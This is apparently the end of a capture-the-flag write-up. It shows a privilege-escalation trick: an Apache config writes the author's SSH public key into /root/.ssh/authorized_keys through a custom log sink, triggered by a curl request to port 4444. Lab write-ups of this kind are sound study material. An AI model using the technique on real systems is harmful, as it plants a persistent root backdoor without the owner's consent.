 The config file can be used to add a custom log sink and using that, we can write to the root user's HOMEDIR.
```sh
apache conf
ServerRoot "/tmp/apache2"
LoadModule mpm_prefork_module /usr/lib/apache2/modules/mod_mpm_prefork.so
Listen 4444
ErrorLog /var/log/apache2/error.log
LogFormat "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCi34C7qsxrxSQ8DnPntlISY3WpWdJyQW3N7bh+nZd83N7QEBiKewt9eacSMMiDxEC7TMavlSs1kUWnb/LBvWJOae5Cij5Vt4D+83acEXQ/agdtYSfAmoc8sbnzKJAY7nZ8YJoMiDdD3v7PBHhQ12HzaRvgLz3cRQRBWJAvrC8/n6AQY9TrH/gO7ldQu5numfB15g7oXCg8dLvPD0Va+4pYd99sIfYnmieI0VemHX6m8Tp/BVEzOIR0paIJ03Tpun/dpG4yfAwuZ1tGdptiFG4v8zCxn80qABjMch4CzpIkbACGbAFEtxQ5Rbo4UBTAr5slfWkk+WHQJPIOsCQRsjL7 rgiskard@ubuntu-jammy" pub_key
CustomLog /root/.ssh/authorized_keys pub_key
```
Running the script as root and making a curl request to port 4444 results in a write to the .ssh/authorized_keys file in root user's HOMEDIR. ![Alt text](./assets/root.png)

Overall, an excellent room.
